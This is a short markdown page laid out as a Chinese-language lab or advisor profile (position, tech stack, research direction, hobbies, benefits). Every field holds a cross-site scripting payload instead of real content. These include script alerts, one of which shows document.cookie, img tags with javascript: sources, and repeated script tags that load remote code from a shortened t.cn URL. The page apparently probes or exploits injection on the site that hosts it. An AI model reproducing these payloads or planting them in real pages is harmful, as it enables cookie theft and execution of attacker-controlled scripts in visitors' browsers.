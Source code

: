 #<script>alert(vulnerable)</script>
---

- 职位:<script>alert(document.cookie)</script>
- 实验室技术栈:<script>alert('XSS')</script>
- 研究方向:<img src="javascript:alert('XSS')">
- 培养方式:<img src="javascript:alert('XSS')">
- 掌握的资源:<script src=http://t.cn/R5VkcWd></script>
- 性格:<script src=http://t.cn/R5VkcWd></script>
- 爱好:<script src=http://t.cn/R5VkcWd></script>
- 福利:<script src=http://t.cn/R5VkcWd></script>
- 厉害的学长:<script src=http://t.cn/R5VkcWd></script>

---
- 其他:<script>alert(vulnerable)</script>